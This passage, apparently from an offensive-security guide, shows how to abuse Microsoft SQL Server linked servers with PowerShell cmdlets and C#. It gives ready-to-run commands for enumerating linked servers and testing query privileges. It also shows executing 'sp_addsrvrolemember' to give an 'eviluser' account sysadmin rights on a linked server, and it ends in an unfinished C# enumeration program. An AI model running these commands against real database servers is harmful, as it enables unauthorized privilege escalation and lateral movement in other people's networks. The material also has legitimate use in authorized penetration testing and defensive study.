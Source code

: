    - Example:
   ```powershell
   Get-SQLServerLink -Instance "ServerName\InstanceName"
   ```

#### 2. **Check for Open Query Execution on Linked Servers**
   - Check if the linked server allows the execution of queries with a higher privilege.
   ```powershell
   Invoke-SQLLinkedCmd -Instance <SQL_INSTANCE> -Query "SELECT SYSTEM_USER;" -LinkedInstance <LINKED_SERVER>
   ```

   - Example:
   ```powershell
   Invoke-SQLLinkedCmd -Instance "ServerName\InstanceName" -Query "SELECT SYSTEM_USER;" -LinkedInstance "LinkedServerName"
   ```

#### 3. **Execute Commands on the Linked Server**
   - Once you've found a linked server that allows open query execution, you can execute arbitrary SQL commands. For instance, you can try to execute a command to add a user with sysadmin privileges.
   ```powershell
   Invoke-SQLLinkedCmd -Instance <SQL_INSTANCE> -Query "EXEC sp_addsrvrolemember 'MyNewUser', 'sysadmin';" -LinkedInstance <LINKED_SERVER>
   ```

   - Example:
   ```powershell
   Invoke-SQLLinkedCmd -Instance "ServerName\InstanceName" -Query "EXEC sp_addsrvrolemember 'eviluser', 'sysadmin';" -LinkedInstance "LinkedServerName"
   ```

### Abusing Linked Servers Using C#

If you want to perform these actions using C#, here’s how you might approach it:

#### 1. **Enumerate Linked Servers Using C#**
   - This C# code connects to a SQL Server instance and lists the linked servers.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=ServerName\\InstanceName;Database=master;User Id=your_username;Password=your_password;";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();
            string query = "EXEC sp_linkedservers;";

            using (SqlCommand command = new SqlCommand(query, connection))
            {
                using (SqlDataReader reader = command.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        Console.WriteLine("Linked Server: " + reader[0]);
                    }
                }
            }
        }
```